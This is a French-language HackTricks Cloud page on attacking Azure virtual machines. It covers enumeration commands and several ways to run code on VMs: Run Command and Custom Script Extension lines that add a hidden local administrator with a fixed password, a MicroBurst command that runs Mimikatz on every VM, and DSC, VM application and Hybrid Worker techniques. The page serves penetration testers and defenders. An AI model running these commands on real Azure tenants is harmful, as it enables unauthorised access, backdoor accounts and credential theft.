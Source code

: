# Az - Machines Virtuelles & Réseau

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

[À partir de la documentation :](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Les machines virtuelles Azure sont l'un des plusieurs types de [ressources informatiques évolutives à la demande](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) qu'Azure propose. En général, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que les autres choix n'offrent. Cet article vous donne des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment la créer et comment la gérer.

## Informations sur le réseau Azure

Les réseaux Azure contiennent **différentes entités et façons de le configurer.** Vous pouvez trouver des **descriptions** **brèves,** **des exemples** et **des commandes d'énumération** des différentes entités réseau Azure dans :

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre une solution d'accès sécurisée et entièrement gérée au protocole RDP (Remote Desktop Protocol) et SSH (Secure Shell) via SSL à travers le portail Azure. Il est intégré dans un réseau virtuel Azure, permettant la connectivité RDP et SSH aux machines virtuelles en utilisant des adresses IP privées, évitant ainsi le besoin d'adresses IP publiques. Cela en fait une alternative plus sûre et plus pratique aux méthodes traditionnelles impliquant des attributions d'adresses IP publiques et des configurations de règles NSG pour l'accès aux VM. Les développeurs et le personnel informatique peuvent accéder de manière sécurisée aux VM depuis le portail Azure en utilisant leurs navigateurs web, simplifiant ainsi le processus pour les environnements de développement et de test.

Pour lister tous les hôtes Azure Bastion dans votre abonnement, vous pouvez utiliser la commande suivante :

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Énumération des VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Exécuter des commandes dans une VM**

### **Connexion AAD dans une VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, en essayant d'accéder à une **VM Linux**: `ssh username@azure-corp.com@1.1.1.1` (il est important d'**utiliser l'adresse e-mail** avec azurecorp utilisée lors de la tentative de connexion), vous pourriez obtenir une erreur comme suit:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Il vous suffit de **suivre ces instructions** en allant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, utilisez l'e-mail et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a les autorisations nécessaires pour le faire : rôle `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Exécuter la commande**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Exécuter l'extension de script personnalisé**

Les extensions de machine virtuelle (VM) Azure sont de **petites applications** qui fournissent une configuration post-déploiement et des tâches d'automatisation sur les **VM Azure**. Par exemple, si une machine virtuelle nécessite une installation de logiciel, une protection antivirus, ou la capacité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension de VM.

Par conséquent, si vous avez accès pour l'écrire, vous pouvez exécuter du code arbitraire:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### État de configuration souhaité (DSC)

L'état de configuration souhaité (DSC) est un outil PowerShell similaire à Ansible, utilisé pour configurer un hôte via du code. DSC s'intègre à Azure, permettant le téléchargement de fichiers de configuration spécifiques. Ces fichiers doivent respecter une syntaxe stricte. Notamment, l'extension DSC dans Azure peut exécuter des commandes à partir de fichiers répondant à certains critères de formatage, même si la syntaxe n'est pas correcte selon les normes DSC, comme le montre la figure fournie.

L'exécution de ces commandes est facilitée par la fonction [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) dans Az PowerShell. Les exigences incluent un fichier **.PS1** avec une fonction définie et le fichier doit être compressé dans un fichier **.zip**. Même si la syntaxe peut ne pas être précise pour DSC, le code s'exécutera toujours. Cependant, l'extension marquera l'état d'exécution comme "échec", et aucune sortie de la commande ne sera visible en raison de l'écrasement de l'état par le message d'échec.

### Définitions d'applications VM

Les définitions d'applications VM permettent le déploiement répétable d'applications versionnées sur une VM Azure. Cette ressource prend en charge le déploiement et la mise à jour d'applications sur des VM. Pour configurer cela, plusieurs étapes sont nécessaires, impliquant des commandes telles que **`New-AzGalleryApplication`** et **`New-AzGalleryApplicationVersion`** dans Az PowerShell.

L'exécution d'applications ou de commandes par cette méthode implique le **"VMAppExtension"**, qui est installé automatiquement lorsqu'une application est appliquée à une VM. L'extension récupère le fichier à partir de l'URI spécifié et le nomme exactement comme l'application, sans extension. Pour exécuter correctement le fichier, le champ "ManageActions" dans l'appel API REST doit être configuré pour renommer le fichier avec l'extension appropriée. La configuration de cette méthode, une fois terminée, ressemblera à la structure montrée dans la figure fournie.

Cependant, cette méthode d'exécution est relativement lente, prenant environ 3 à 4 minutes pour exécuter une application ou une commande. Les fichiers liés à ce processus sont stockés dans des répertoires spécifiques (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` pour la copie de l'application et `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` pour l'état d'exécution).

Les deux techniques offrent des moyens uniques d'exécuter des commandes et de déployer des applications dans des environnements Azure, chacune avec ses propres exigences, étapes et considérations.

### Groupes de travailleurs hybrides (HWGs) dans Azure

[**Les groupes de travailleurs hybrides (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sont une fonctionnalité dans Azure qui permet aux Runbooks, configurés dans un compte Automation, d'être exécutés sur une machine virtuelle Azure (VM) faisant partie du HWG désigné. Cette exécution est facilitée par une extension installée sur la VM, qui déploie le code du Runbook sur la VM. Un aspect important de ce processus est que les informations d'identification réelles ne sont pas un facteur dans l'exécution car le code s'exécute avec des privilèges élevés, spécifiquement en tant que **SYSTEM** ou root, comme illustré dans la figure fournie.

Un détail crucial pour ceux utilisant des VM Windows 10 est la nécessité de spécifier la version de PowerShell pour le Runbook. Il doit être configuré pour s'exécuter en tant que Version PowerShell 5.1 au lieu de 7.1. Cette exigence découle du fait que PowerShell 7.1 n'est pas installé par défaut sur ces VM, ce qui entraînerait un échec de l'exécution du script si la version 7.1 est spécifiée.

Cette fonctionnalité d'Azure offre une méthode robuste pour automatiser et gérer des tâches dans des environnements hybrides, permettant une gestion centralisée et l'exécution de tâches sur des VM Azure.


## Références

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
